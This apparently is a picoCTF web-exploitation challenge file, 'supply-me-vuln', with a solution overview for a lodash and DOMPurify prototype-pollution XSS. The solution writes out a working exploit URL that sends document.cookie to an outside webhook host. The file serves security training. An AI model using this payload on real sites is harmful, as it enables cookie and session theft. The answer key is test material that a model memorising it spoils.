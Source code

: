 # supply-me-vuln

- Namespace: picoctf/18739f24
- ID: supply-me-vuln
- Type: custom
- Category: Web Exploitation
- Points: 1
- Templatable: yes
- MaxUsers: 1

## Description

The site uses a buggy library! Figure it out and carry out the exploit!


## Details

Browse {{link_as('/', 'here')}}, and find the flag!


## Hints

- How do you determine what library is running behind the scene?
- Can you get its version?

## Solution Overview

- Install library detector extension on your browser and detect the library being used
- some of them provides the version of the library, if not, since the target library is lodash, we can print the version out with _.VERSION
- By searching online we know that lodash 4.17.20 has a code injection vulnerability in its template function
- Inspect the behavior and given source code of the function `pass_val`, combined with the lodash template usage to build up a XSS payload
- carry out the attack to get the flag saved in document.cookie of another user, use a self-host server to get the 
  redirected request
- https://github.com/BlackFan/client-side-prototype-pollution/blob/master/gadgets/dompurify.md
- cookie exploit url for remote server: http://localhost:8000?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src&__proto__[hasOwnProperty]={}&name=<img src onerror=fetch('https://webhook.site/62766d8c-83e6-40b6-a12d-6f65c884f7ce?cookie='%2Bdocument.cookie)>
- http://localhost:8000/?__proto__[ALLOWED_ATTR][0]=onerror&__proto__[ALLOWED_ATTR][1]=src&__proto__[hasOwnProperty]={}&name=%3Cimg%20src%20onerror=fetch(%27https://webhook.site/62766d8c-83e6-40b6-a12d-6f65c884f7ce?cookie=%27%2Bdocument.cookie)%3E


## Learning Objective

- Get to know about the supply chain attacks

## Attributes

- author: Ian Lin
- organization: picoCTF
- event: picoCTF Problem Developer Training
